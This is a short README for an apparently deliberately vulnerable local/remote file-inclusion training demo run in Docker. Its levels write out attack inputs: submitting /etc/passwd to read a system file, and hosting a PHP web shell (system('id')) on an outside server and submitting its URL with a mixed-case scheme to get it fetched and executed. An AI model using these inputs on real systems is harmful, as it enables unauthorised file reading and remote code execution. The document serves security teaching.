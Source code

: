 File Inclusion
=============
This demo demonstrates a simple LFI/RFI vulnerability.

Build and run the Dockerfile:

```bash
$ docker build -t fi-demo .
$ docker run -p 3002:3002 fi-demo
```

## Level 1
1. Submit: ``/etc/passwd``
2. /etc/passwd contents will be outputted.

## Level 2
1. Make a file called pwn.php with the following contents: ``<?php system("id");?>``
2. Host a webserver on any port.
3. Submit ``hTtps:///your_server:PORT/pwn.php`` (You can also just use ``hTtps:///google.com`` instead.)
4. Then ``pwn.php`` will be executed, displaying ``id``

*More levels will be added in the future.*

